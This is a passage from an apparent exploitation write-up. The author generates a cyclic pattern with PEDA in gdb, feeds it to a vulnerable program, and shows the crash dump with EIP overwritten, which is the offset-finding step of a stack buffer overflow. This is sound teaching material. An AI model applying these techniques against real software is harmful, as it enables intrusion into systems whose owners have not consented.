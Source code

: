 I’ll use `pattern_create` (part of PEDA, also available as a stand-alone binary from Metasploit) to create a non-repeating pattern 500 long. I’ll pass that into the program and run it:

```

gdb-peda$ pattern_create 500
'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
gdb-peda$ run 'AAA%AAsAABAA$AAnAACAA-AA(AADAA;AA)AAEAAaAA0AAFAAbAA1AAGAAcAA2AAHAAdAA3AAIAAeAA4AAJAAfAA5AAKAAgAA6AALAAhAA7AAMAAiAA8AANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA%RA%oA%SA%pA%TA%qA%UA%rA%VA%tA%WA%uA%XA%vA%YA%wA%ZA%xA%yA%zAs%AssAsBAs$AsnAsCAs-As(AsDAs;As)AsEAsaAs0AsFAsbAs1AsGAscAs2AsHAsdAs3AsIAseAs4AsJAsfAs5AsKAsgAs6A'
[----------------------------------registers-----------------------------------]
EAX: 0x0 
EBX: 0x0 
ECX: 0xffffd3e0 ("As6A")
EDX: 0xffffd0fc ("As6A")
ESI: 0xf7f99000 --> 0x1d9d6c 
EDI: 0xf7f99000 --> 0x1d9d6c 
EBP: 0x6941414d ('MAAi')
ESP: 0xffffcf80 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
EIP: 0x41384141 ('AA8A')
EFLAGS: 0x10202 (carry parity adjust zero sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x41384141
[------------------------------------stack-------------------------------------]
0000| 0xffffcf80 ("ANAAjAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8"...)
0004| 0xffffcf84 ("jAA9AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA"...)
0008| 0xffffcf88 ("AAOAAkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%"...)
0012| 0xffffcf8c ("AkAAPAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%O"...)
0016| 0xffffcf90 ("PAAlAAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA"...)
0020| 0xffffcf94 ("AAQAAmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%"...)
0024| 0xffffcf98 ("AmAARAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%Q"...)
0028| 0xffffcf9c ("RAAoAASAApAATAAqAAUAArAAVAAtAAWAAuAAXAAvAAYAAwAAZAAxAAyAAzA%%A%sA%BA%$A%nA%CA%-A%(A%DA%;A%)A%EA%aA%0A%FA%bA%1A%GA%cA%2A%HA%dA%3A%IA%eA%4A%JA%fA%5A%KA%gA%6A%LA%hA%7A%MA%iA%8A%NA%jA%9A%OA%kA%PA%lA%QA%mA"...)
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x41384141 in ?? ()

```
